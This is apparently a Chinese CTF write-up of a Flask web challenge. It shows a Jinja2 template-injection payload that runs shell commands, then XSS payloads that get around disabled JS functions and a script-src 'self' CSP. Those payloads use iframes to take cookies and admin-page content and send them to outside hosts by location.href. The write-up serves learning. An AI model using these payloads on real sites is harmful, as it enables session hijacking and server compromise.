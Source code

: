 > 原文链接: https://www.anquanke.com//post/id/220436 


# 中秋忆一道XSS题目


                                阅读量   
                                **166784**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t019dc3acf125dd1ccc.jpg)](https://p5.ssl.qhimg.com/t019dc3acf125dd1ccc.jpg)



国庆中秋期间闲的发呆，在整理之前做过的题目的时候，发现了一道当时被非预期的XSS题目，因为当时是被非预期所以拿到了root权限，本地完整的复现了当时的环境，整个题目解下来还是能学到一些知识的，如果不是被非预期感觉题目质量还是不错的。最后写成文章分享给大家，大佬们轻喷。



## 0x01 回忆题目功能

原题 ：湖湘杯 web Xmeo

### <a class="reference-link" name="0x1%20%E7%99%BB%E9%99%86%E6%B3%A8%E5%86%8C%E7%95%8C%E9%9D%A2"></a>0x1 登陆注册界面

简洁的登陆界面，拥有注册和登陆功能，注册时用户名不能重复。

[![](https://p0.ssl.qhimg.com/t012072d076cf1083fa.jpg)](https://p0.ssl.qhimg.com/t012072d076cf1083fa.jpg)

[![](https://p0.ssl.qhimg.com/t01acadafd981413768.jpg)](https://p0.ssl.qhimg.com/t01acadafd981413768.jpg)

### <a class="reference-link" name="0x2%20%E6%B7%BB%E5%8A%A0%E4%BF%AE%E6%94%B9%E6%9F%A5%E7%9C%8B%E6%8F%8F%E8%BF%B0"></a>0x2 添加修改查看描述

这里有个ADD按钮可以添加描述，但是必须选择否才能修改和查看这一点我也不知道是为什么。

[![](https://p1.ssl.qhimg.com/t0141fea8ceff018829.jpg)](https://p1.ssl.qhimg.com/t0141fea8ceff018829.jpg)

修改功能是重新弹出这个界面，然而查看界面则是直接将添加的描述信息打印出来。

### <a class="reference-link" name="0x3%20%E8%81%94%E7%B3%BB%E7%AE%A1%E7%90%86%E5%91%98"></a>0x3 联系管理员

按照要求填过所有的空之后会反回 `Submit successfully administrator will read it soon!` 从这个点也能看出来这是个标准的xss题目，但是当时已经拿到了flag，就没在纠结利用xss怎么解这道题目。

[![](https://p4.ssl.qhimg.com/t018320a52e045deea3.jpg)](https://p4.ssl.qhimg.com/t018320a52e045deea3.jpg)



## 0x02 非预期解

我们从非预期解开始回忆，当时拿到题目，发现能够查看添加的描述

[![](https://p5.ssl.qhimg.com/t0105a7032ad4612192.jpg)](https://p5.ssl.qhimg.com/t0105a7032ad4612192.jpg)

这时我们可以联想后台的代码逻辑

```
def show(args):
    ......
    return render_template_string(content)
```

因为 render_template_string 会渲染模板，将会解析`{``{``}``}`内的表达式，因此我们可以运用标准的python沙箱逃逸方法执行python 语句并实现任意命令执行

```
`{``{`''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("id").read()')`}``}`
```

我们通过上述命令获取服务系统的root权限，如下图所示，

[![](https://p4.ssl.qhimg.com/t01de1166af15ac1197.jpg)](https://p4.ssl.qhimg.com/t01de1166af15ac1197.jpg)

下面进入本篇文章的主要内容，通过xss获取其中暗含的flag



## 0x03 利用XSS漏洞获取flag

### <a class="reference-link" name="0x1%20%E6%9A%97%E8%97%8F%E7%8E%84%E6%9C%BA"></a>0x1 暗藏玄机

如果不是非预期我还不知道这是道xss题目，通过查看进程了解到其中运行着phantomjs 进程执行着auto.js，auto.js中是标准的phantomjs 模拟浏览器访问，其中flag也在auto.js中包含着，利用模板注入拿flag也是通过该文件获取。

[![](https://p5.ssl.qhimg.com/t015572047e73c8f93d.jpg)](https://p5.ssl.qhimg.com/t015572047e73c8f93d.jpg)

发现这个之后我心里一直有个梗，想把它用正解解出来。

[![](https://p2.ssl.qhimg.com/t016a8567e921ad7ed4.png)](https://p2.ssl.qhimg.com/t016a8567e921ad7ed4.png)

### <a class="reference-link" name="0x2%20%E6%8F%AD%E5%BC%80%E9%9D%A2%E7%BA%B1"></a>0x2 揭开面纱

<a class="reference-link" name="1.%20js%E5%AE%89%E5%85%A8%E9%98%B2%E6%8A%A4"></a>**1. js安全防护**

好了我开始在中秋佳节想着这个题目怎么做，一开始想着通过image标签等常见xss技巧获取管理员cookie，比如如下方法

```
var img = document.createElement("img");
img.src = "http://1.1.1.1/log?"+escape(document.cookie);
document.body.appendChild(img);
```

发现根本不好使，之后找到了罪魁祸首，在js中禁用了一些关键函数

[![](https://p0.ssl.qhimg.com/t0177350aabbffce64e.jpg)](https://p0.ssl.qhimg.com/t0177350aabbffce64e.jpg)

常见的XMLHttpRequest ，image标签等都被禁用了，回头来又发现了其他防护

<a class="reference-link" name="2.%20%E6%B5%8F%E8%A7%88%E5%99%A8%E5%AE%89%E5%85%A8%E9%98%B2%E6%8A%A4"></a>**2. 浏览器安全防护**

响应头中返回了`Content-Security-Policy: script-src 'self';`

[![](https://p0.ssl.qhimg.com/t012fb5df096c7d26b2.png)](https://p0.ssl.qhimg.com/t012fb5df096c7d26b2.png)

这就意味着该网站不允许内联脚本执行，也就是直接嵌套在`&lt;script&gt;&lt;/script&gt;`中的代码不被执行，而`&lt;script src="http://ip"&gt;&lt;/script&gt;` src中的代码将被执行，而且必须保证是同源网站。<br>
这个目的就很明显了，通过添加查看描述，可以在同源网站上添加任意javascript代码，这为之后的xss打下了基础。

### <a class="reference-link" name="0x3.%20%E6%9F%B3%E6%9A%97%E8%8A%B1%E6%98%8E"></a>0x3. 柳暗花明

尝试获取了当前页面的cookie

```
window['locat'+'ion'].href = "http://1.1.1.1/?"+document.cookie;
```

在向管理员提交留言时要注意，必须是127.0.0.1的ip，在复现的时候吃了一大亏，一直没成功，最后才发现时同源策略导致script代码没有执行。

```
&lt;/div&gt;
&lt;script src=http://127.0.0.1:7443/show/591b111c-096d-11eb-97c4-0242ac110003&gt;&lt;/script&gt;
&lt;div&gt;
```

[![](https://p3.ssl.qhimg.com/t01e0780c55aa2472ca.jpg)](https://p3.ssl.qhimg.com/t01e0780c55aa2472ca.jpg)

无意中获取到了一个hit 尝试获取/admin 中的页面内容，必须使用ajax的方法读取其中的网页内容

### <a class="reference-link" name="0x4.%20%E5%B1%82%E5%B1%82%E9%80%92%E8%BF%9B"></a>0x4. 层层递进

既然有这么多防护，那么就想办法去绕过禁用了img和XMLHttpRequest，<br>
这个其实在之前的ctf题目中有出现过比较常见的绕过方法是，利用iframe子窗口中的函数。

```
var ifm = document.createElement('iframe');
ifm.setAttribute('src','/admin/');
document.body.appendChild(ifm);
window.XMLHttpRequest = window.top.frames[0].XMLHttpRequest;
var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:7443/admin/",false);
xhr.send();
c=xhr.responseText;
window.location.href="http://192.168.0.134:8889/?c="+c;
```

利用js代码创建iframe 标签设置其中的网页url，利用iframe中的XMLHttpRequest 发送请求给admin 页面并获取页面内容通过location.href 发送至服务器。注意这里的后台请求url为 `http://127.0.0.1:7443/admin/` 一定要带/因为flask强制识别<br>
因为片段太长所以通过如下方法进行绕过

[![](https://p5.ssl.qhimg.com/t0191f9bae85738558c.jpg)](https://p5.ssl.qhimg.com/t0191f9bae85738558c.jpg)

[![](https://p0.ssl.qhimg.com/t01fc81ca20ef5f83dd.jpg)](https://p0.ssl.qhimg.com/t01fc81ca20ef5f83dd.jpg)

[![](https://p2.ssl.qhimg.com/t01fcae1444d73128b1.jpg)](https://p2.ssl.qhimg.com/t01fcae1444d73128b1.jpg)

获取了新的hint

```
This website also have another page named mysecrecy_directory......
```

## 0x5. 终极之战

这个目的就很清楚了获取mysecrecy_directory目录下的cookie即可

```
var f= document.createElement('iframe');
f.setAttribute('src','/admin/mysecrecy_directory');
document.body.appendChild(f);
f.onload = function()`{`
var a= f.contentWindow.document.cookie;
location.href = "http://192.168.0.134:8889/?"+a;`}`
```

和之前一样，修改src为/admin/mysecrecy_directory，在iframe加载的同时获取iframe中的cookie并利用href跳转获取flag

[![](https://p5.ssl.qhimg.com/t0199abfb579f056aac.jpg)](https://p5.ssl.qhimg.com/t0199abfb579f056aac.jpg)



## 0x04 总结

总算是了结了心结，同时总结了xss的绕过技巧，绕过js delete禁用、绕过csp安全策略、利用xss从127.0.0.1访问网站并获取内容，利用xss读取当前网站任意url cookie等技术，这个十一收获还是有的。
